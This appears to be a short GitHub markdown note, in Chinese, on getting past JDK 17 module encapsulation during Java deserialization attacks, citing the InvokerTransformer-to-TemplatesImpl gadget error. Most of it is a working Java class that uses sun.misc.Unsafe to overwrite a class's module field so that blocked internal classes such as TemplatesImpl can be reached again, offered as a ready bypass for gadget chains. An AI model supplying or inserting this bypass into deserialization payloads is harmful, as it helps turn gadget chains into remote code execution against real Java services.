


# jdk17 bypass module

https://www.bennyhuo.com/2021/10/02/Java17-Updates-06-internals/

https://github.com/BeichenDream/Kcon2021Code/blob/master/bypassJdk/JdkSecurityBypass.java

在jdk17使用反序列化的时候发现要报错

```
InvokerTransformer: The method 'newTransformer' on 'class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl' cannot be accessed
```



限制了



限制了的类https://cr.openjdk.java.net/~mr/jigsaw/jdk8-packages-strongly-encapsulated

## 需要bypass

```
按照提案的说明，被严格限制的这些内部 API 包括：
        
java.* 包下面的部分非 public 类、方法、属性，例如 Classloader 当中的 defineClass 等等。
sun.* 下的所有类及其成员都是内部 API。
绝大多数 com.sun.* 、 jdk.* 、org.* 包下面的类及其成员也是内部 API。
```

**code**

```java

import sun.misc.Unsafe;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;

/**
 * https://cr.openjdk.java.net/~mr/jigsaw/jdk8-packages-strongly-encapsulated
 */
public class BypassModule {
    public static void main(String[] args) throws Exception {
        final ArrayList<Class> classes = new ArrayList<>();
        classes.add(Class.forName("java.lang.reflect.Field"));
        classes.add(Class.forName("java.lang.reflect.Method"));
        Class aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        classes.add(aClass);
        new BypassModule().bypassModule(classes);
        aClass.newInstance();
    }

    public void bypassModule(ArrayList<Class> classes){
        try {
            Unsafe unsafe = getUnsafe();
            Class currentClass = this.getClass();
            try {
                Method getModuleMethod = getMethod(Class.class, "getModule", new Class[0]);
                if (getModuleMethod != null) {
                    for (Class aClass : classes) {
                        Object targetModule = getModuleMethod.invoke(aClass, new Object[]{});
                        unsafe.getAndSetObject(currentClass, unsafe.objectFieldOffset(Class.class.getDeclaredField("module")), targetModule);
                    }
                }
            }catch (Exception e) {
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    private static Method getMethod(Class clazz,String methodName,Class[] params) {
        Method method = null;
        while (clazz!=null){
            try {
                method = clazz.getDeclaredMethod(methodName,params);
                break;
            }catch (NoSuchMethodException e){
                clazz = clazz.getSuperclass();
            }
        }
        return method;
    }

    private static Unsafe getUnsafe() {
        Unsafe unsafe = null;
        try {
            Field field = Unsafe.class.getDeclaredField("theUnsafe");
            field.setAccessible(true);
            unsafe = (Unsafe) field.get(null);
        } catch (Exception e) {
            throw new AssertionError(e);
        }
        return unsafe;
    }
}
```

